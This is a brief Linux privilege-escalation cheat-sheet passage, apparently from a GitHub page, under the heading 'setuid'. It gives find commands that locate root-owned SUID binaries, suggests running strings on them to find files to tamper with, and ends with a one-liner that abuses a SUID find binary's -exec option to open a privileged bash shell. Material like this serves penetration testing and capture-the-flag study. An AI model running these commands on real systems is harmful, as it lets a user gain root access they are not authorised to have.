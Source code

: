 ### setuid

`find /bin -perm -4000`

`find / -user root -perm -4000 -exec ls -ldb {} \;`

Eventually `strings` on the said SUID file to see its interactions with other files and modify those files instead.

Some SUID binaries have `-exec` options in their man page:

`/usr/bin/find zizi -exec /bin/bash -p \;`
